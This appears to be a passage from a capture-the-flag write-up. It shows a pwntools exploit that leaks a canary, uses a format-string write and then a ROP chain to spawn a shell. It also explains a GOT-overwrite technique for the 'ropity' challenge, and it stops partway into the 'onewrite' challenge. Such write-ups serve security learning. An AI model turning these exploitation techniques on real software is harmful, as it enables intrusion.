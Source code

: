 ```python
feedbeef = pie + 0x6050

canary = int(r.recvuntil(b'|', True), 16)

# set backdoor conditions
r.sendlineafter(b']: ', b'y')
payload = b'%9$naaaa'
payload += p64(feedbeef)
r.sendlineafter(b': ', payload)

r.sendlineafter(b']: ', b'y')
payload = b'%9$naaaa'
payload += p64(target)
r.sendlineafter(b': ', payload)

# send ROP payload to backdoor
payload = b''
payload += b'a'*0x68
payload += p64(canary)
payload += b'c'*8
payload += flat(rdi+1, rdi, binsh, system)
r.sendlineafter(b'\n>', payload)

r.interactive()
r.close()
```

# ropity
There is a function called `printfile`, which displays the contents via sendfile when you set a file name pointer to `rdi`.

However, placing a value in `rdi` is a bit tricky.We use this gadget to set `rdi`. By rewriting the GOT of `fgets` to `printfile`, you can put the desired value in `rdi`.

```
  401149:       48 8d 45 f8             lea    rax,[rbp-0x8]
  40114d:       be 00 01 00 00          mov    esi,0x100
  401152:       48 89 c7                mov    rdi,rax
  401155:       e8 e6 fe ff ff          call   401040 <fgets@plt>
```

So, in the first ROP we set `rbp` to bss, in the next ROP we overwrite the GOT with `fgets` and store the file name, and in the last ROP we put the file name pointer in `rdi` and call `printfile`.

We did not solve this problem, but solved it together with [bopity](#bopity), so we will omit the script here. 

# onewrite
You are given the address of the printf and are free to write to it once.

```
0x790b15660770
> 
```
The program is very simple, you enter `where` and `what`, and it writes the value there.
